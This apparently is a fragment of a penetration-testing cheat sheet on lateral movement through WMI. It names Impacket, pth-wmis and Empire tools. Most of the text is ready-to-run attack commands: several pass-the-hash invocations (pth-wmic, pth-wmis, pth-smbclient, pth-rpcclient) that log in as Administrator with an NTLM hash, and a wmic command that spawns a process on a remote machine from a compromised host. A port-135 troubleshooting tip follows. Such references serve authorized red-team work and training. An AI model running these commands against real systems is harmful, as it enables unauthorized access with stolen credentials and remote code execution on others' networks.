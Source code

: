 ### Implementations



#### Impacket

```
wmiexec
```



#### pth-wmis

```
sudo apt-get install passing-the-hash
pth-wmis
```

```
root@Kali:~# pth-wmic -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "select Name from Win32_UserAccount"
root@Kali:~# pth-wims -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25 "cmd.exe /c whoami > c:\temp\result.txt"
root@Kali:~# pth-smbclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25/c$
root@Kali:~# pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee:C0F2E311D3F450A7FF2571BB59FBEDE5 //192.168.1.25
```

#### Powershell Empire

```
Invoke_wmi
```

#### WMIC

Spawning a new process on the target system 10.0.0.6 from another compromised system 10.0.0.2:

```
wmic /node:10.0.0.6 /user:administrator process call create "cmd.exe /c calc"
```



### Why is it not working?  


**Check the port**
Is port 135 open on the target?


